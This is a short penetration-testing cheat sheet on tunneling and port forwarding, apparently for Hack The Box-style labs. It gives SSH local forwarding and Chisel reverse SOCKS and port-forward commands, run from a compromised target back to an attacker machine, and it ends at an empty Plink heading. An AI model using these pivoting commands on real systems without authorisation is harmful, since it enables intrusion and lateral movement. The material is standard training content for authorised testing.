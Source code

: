 # Tunneling and Port Forwarding

## SSH

### Port Forwarding

Scenario: When getting a foothold on a target machine, you find a service running on it that is only listening on the local host, so you want to forward it to the Attack machine so you can access it.

```bash
# From Kali (Attack Machine)
# Syntax
ssh -L <local port>:<localhost>:<target port> -l <target user> <target IP>
# Example (from the Pandora machine on HTB)
ssh -L 8888:127.0.0.1:80 -l daniel 10.129.250.50
```

## Chisel

### Socks Proxy

```bash
# From Kali
chisel server -p 8000 --reverse

# From Target - Download necessary platform binary i.e Linux adm64, Windows, etc.
./chisel client 10.50.143.31:8000 R:socks

# And now use proxychains with port 1080 (default)
```

### Port Forwarding

Scenario: When getting a foothold on a target machine, you find a service running on port 8000 that is only listening on the local host, so you want to forward it to the Attack machine (also to port 8000) so you can access it.

```bash
# From kali
chisel server -p 12312 --reverse

# From Target
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:8000:127.0.0.1:8000
```

## Plink

